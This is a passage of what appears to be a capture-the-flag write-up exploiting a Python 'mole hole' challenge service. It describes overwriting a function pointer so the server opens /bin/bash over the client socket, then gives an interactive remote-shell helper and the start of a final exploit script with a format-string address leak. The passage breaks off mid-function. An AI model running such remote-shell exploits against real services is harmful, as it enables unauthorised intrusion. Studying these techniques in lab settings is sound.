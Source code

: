 Once the overflow payload is received, the server extracts the 8 bytes at the calculated offset. If that extracted value equals the address of secret_mole_escape (as given by id(secret_mole_escape)) and—if testing—we introduce an 80% success probability, then the function pointer (initially set to safe_escape) is overwritten to point to `secret_mole_escape`.

**6. Spawning the Shell**  

(Under the hood) The function secret_mole_escape duplicates the client socket’s file descriptor to standard I/O (or input and output) and then calls os.execv("/bin/bash", ["/bin/bash"]) to open a shell. This should provide an interactive shell over the network connection.

Lucky for us, an interactive shell can be created in python using either the pty package or the following code cave:

```python
def interactive_shell(s):
    print("[*] Interactive shell. Type commands, and press Enter.")
    try:
        while True:
            cmd = input("$ ")
            if cmd.strip() == "":
                continue
            s.sendall((cmd + "\n").encode())
            time.sleep(0.3)
            data = s.recv(4096).decode(errors="ignore")
            print(data, end="")
    except KeyboardInterrupt:
        print("\n[!] Exiting interactive shell.")
        s.close()
```

**7. Final Exploit**  

In this final section, we can see a fully formed version of this script:

```python
#!/usr/bin/env python3
import socket
import struct
import re
import random
import time

# Configuration
HOST = "127.0.0.1"  # Change this to your target's IP.
PORT = 9999

def recv_until(s, delim, timeout=2):
    s.settimeout(timeout)
    data = b""
    try:
        while delim not in data:
            chunk = s.recv(1)
            if not chunk:
                break
            data += chunk
    except Exception:
        pass
    finally:
        s.settimeout(None)
    return data

def leak_addresses(s):
    """
    Read until the prompt, send a format string payload, and return the leaked string.
    """
    # Wait for the initial prompt (e.g. "Select a mole hole (1-9):")
```